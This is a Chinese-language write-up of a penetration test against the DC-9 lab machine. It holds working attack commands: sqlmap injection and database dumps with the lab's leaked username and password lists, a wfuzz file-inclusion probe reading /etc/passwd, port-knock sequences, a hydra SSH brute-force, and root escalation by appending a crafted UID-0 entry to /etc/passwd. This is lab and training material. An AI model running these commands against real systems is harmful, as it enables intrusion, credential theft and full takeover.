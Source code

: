 

# DC_9靶机渗透测试

- [参考链接1](https://www.shuzhiduo.com/A/gGdXme3Ez4/)
- [参考链接2](https://www.cnblogs.com/wzy-ustc/p/14621512.html)
- [参考链接3](http://www.paijuanxing.online/2021/03/01/DC9/)

### 信息收集

- 扫描靶机位置和端口

- 打开靶机的web服务


- 打开search页面，输入内容，用brupsuite进行分析


- 两次sql注入不一样的结果，极大可能存在sql注入漏洞


- 使用sqlmap进行sql注入，查看后台数据库

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' --dbs
```

- 找到数据库名user, Staff


- 查看库名为Staff的表

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D Staff --tables
```

- 查看该表中的列, 发现了用户名admin以及密码transorbital1

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D Staff -T Users --dump
```


- 查看库user中的表

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users --tables
```



- 查看该表的列

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users -T UserDetails --columns
```

- 查看列password和username的内容

```
sqlmap -u http://192.168.1.10/results.php --data 'search=1' -D users -T UserDetails -C username,password --dump
```


- *将用户名和密码分别使用user和pwd装起来*

```
# user

marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
admin
```

```
# pwd

3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
transorbital1
```



- 以用户名为admin登录靶机web后台
- 发现底部有着 “file does not exist”,可能存在着LFI（文件包含漏洞）
- 而且这里的包含变量有可能是file不妨尝试一下
  经过不停的返回上一级目录（尝试）
- 使用wfuzz去fuzz LFI 

```
wfuzz  --hh 1341 -b 'PHPSESSID=m5bn4run22bpvrdgebofik7tbd' -c -w common.txt http://192.168.1.10/manage.php?FUZZ=../../../../../../../etc/passwd
```

- 获得包含指定变量名的文件为file

```
SSH服务是容易被攻击的，相应的就衍生出一系列保护SSH的方法：

1、端口变化，并加强配置

2、设置用户白名单

3、完全隐藏允许SSH访问的事实，要求根据特殊的“敲门”序列识别有效用户：https://zhuanlan.zhihu.com/p/43716885

第三种方法常使用的工具是knockd，它侦听以太网或其他可用接口上的所有流量，等待特殊序列的端口命中。
```

- 通过查看目标服务器运行进程看看是否开启了knockd
- /proc/sched_debug中存放的是CPU的调度情况


- 确定了目标服务器上运行了knockd以后，knockd的默认配置文件的位置在/etc/knockd.conf中

- 通过查看knockd.conf 内容，确定了knock的顺序是7469， 8475， 9842

- 依次敲门

- 还有其他敲门方法,如：

```
for x in 7469 8475 9842;do nmap ‐Pn ‐‐max‐retries 0 ‐p $x 192.168.1.10;done

安装knock
knock 192.168.1.10 7469 8475 9842
```

- 再次查看靶机端口开放情况， 发现ssh端口已经打开

- 使用九头蛇（hydra）暴力破解ssh账号密码

```
hydra -L user -P pwd ssh://192.168.1.10
```

- 发现三个用户名和密码

- 分别ssh登录，但只有在janitor用户下发现有效的信息

- 将这些密码重新汇编成新密码本

- 得到新用户以及密码，尝试ssh登录

- sudo -l 发现该用户可以使用root权限的文件

- 查看该文件，都是乱码，运行一下，给提示打开test.py文件

- 在该目录的上上级目录中找到了test.py文件

- 通过观察，test.py是由test文件编译过来的，作用是把一个文件的内容追加到第二个文件中

### 提权

***[两种提权方式连接](https://www.shuzhiduo.com/A/gGdXme3Ez4/)***

- 网上有两种提权方式，一种是往/etc/sudoers里面添加内容，让用户可以以root的权限去执行命令，另一种则是添加一个新的用户到/etc/passwd，然后新添加的用户登陆

- **第一种方法：往/etc/sudoers里面添加内容，让用户可以以root的权限去执行命令**

- 这里用Openssl来对密码进行加密,在进行编辑输入到/tmp/pwd

```
openssl passwd -1 -salt 'abcdefg' 123456 
得到密码
$1$abcdefg$a3UbImglR4PCA3x7OvwMX.输入到/tmp/pwd
echo 'admin:$1$abcdefg$a3UbImglR4PCA3x7OvwMX.:0:0::/root:/bin/bash' > /tmp/pwd
使用脚本吸入passwd文件中
sudo /opt/devstuff/dist/test/test /tmp/pwd /etc/passwd
```



## 总结

- [openssl passwd](https://www.cnblogs.com/f-ck-need-u/p/6089869.html)
- 向/etc/passwd文件中添加用户和密码提权
- 向/etc/sudoers 更改已有用户权限

